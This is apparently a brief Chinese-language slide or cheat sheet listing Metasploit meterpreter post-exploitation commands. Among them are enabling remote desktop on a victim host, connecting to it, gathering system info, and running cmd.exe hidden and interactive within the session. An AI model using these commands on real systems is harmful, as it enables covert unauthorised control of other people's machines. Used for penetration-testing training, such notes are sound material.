

# 基本命令
run  getgui  -e   开启目标主机远程桌面
rdesktop ip 连接受害者
sysinfo   命令为显示远程主机的系统信息
execute 执行程序
execute  -f notepad.exe
execute -h  显示帮助信息。-f为执行要运行的命令
如果希望隐藏后台执行，加参数-H
execute  -H -f notepad.exe
我们运行目标主机上的cmd.exe程序，并以隐藏的方式直接交互到我们的meterpreter会话上
execute  -H -i -f  cmd.exe